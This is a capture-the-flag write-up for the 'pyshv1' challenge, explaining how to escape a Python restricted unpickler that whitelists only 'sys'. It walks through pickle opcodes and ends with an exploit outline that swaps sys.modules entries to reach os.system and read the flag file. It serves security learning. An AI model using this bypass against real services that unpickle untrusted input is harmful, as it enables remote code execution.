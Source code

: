 ```yaml
---
name: pyshv1
category: misc
points: 572
solves: 13
---
```


{% ignore %}
[Go to rendered GitBook version](https://sasdf.github.io/ctf/)
{% endignore %}


> Continuous delivery is awesome.  
> We deploy our code to production whenever we can.  
> No code, no vulnerability.  
> Everything works great.  


# Overview, Concept and Design Criteria
Intially, I wanted to create some reverse challenge using pickle.
(Yep, one of that strange language series)

However, when I playing with pickle VM,
I realized that it's RIDICULOUSLY POWERFUL.

It shouldn't be limited to some noob `__reduce__` RCE.

Make pickle-pwn great again.


# Solution
## Behavior
In this task, we can send a pickle file to the server.
```python
def login(self):
    user = input().encode('ascii')
    user = codecs.decode(user, 'base64')
    user = pickle.loads(user)
```

The packages that can be imported is limited to `sys` only.
Also, deep import features starting from python3 is blocked.
```python
# See https://docs.python.org/3.7/library/pickle.html#restricting-globals
class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        if module not in whitelist or '.' in name:
            raise KeyError('The pickle is spoilt :(')
        return pickle.Unpickler.find_class(self, module, name)

# ...

pickle.whitelist.append('sys')
```

## Pickle
Pickle is a stack-based VM that is aiming for construct structure.
It has many data manipulation operations.
The only disadvantage is that there's no read operations because you should already know what you constructed.

You can find the pure python implementation of pickle from 
[github](https://github.com/python/cpython/blob/3.6/Lib/pickle.py) 
or `/usr/lib/python3.6/pickle.py`.

Let's see some operations will need in this task.
```
# Import root level attribute
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args

# Call function
REDUCE         = b'R'   # apply callable to argtuple, both on stack

# Set attribute for class
BUILD          = b'b'   # call __setstate__ or __dict__.update()

# Set item in dict
SETITEM        = b's'   # add key+value pair to dict
```

`GLOBAL` (with our own filter) can only import attribute in root level, that is, importing `a.b` is OK, but importing `a.b.c` is disallowed.

## sys module
`sys` has many interesting things inside. One of them is `sys.modules`, which is a cache of imported modules.

Pickle also use `sys.modules`: 
```
def find_class(self, module, name):
    # Subclasses may override this.
    if self.proto < 3 and self.fix_imports:
        # ...
        pass

    __import__(module, level=0)

    # ...

    return getattr(sys.modules[module], name)
```

If we change `sys.modules['sys']` to other things, we can get some attribute of it!!

My exploit looks like:
```python
sys.modules['sys'] = sys.modules

import sys.get as sys.modules.get

os = sys.modules.get('os')

sys.modules['sys'] = os

import sys.system as os.system

os.system('cat ../flag.txt')
```

You can find the final pickle bytecode [here]([_files/solution/solve.py]).
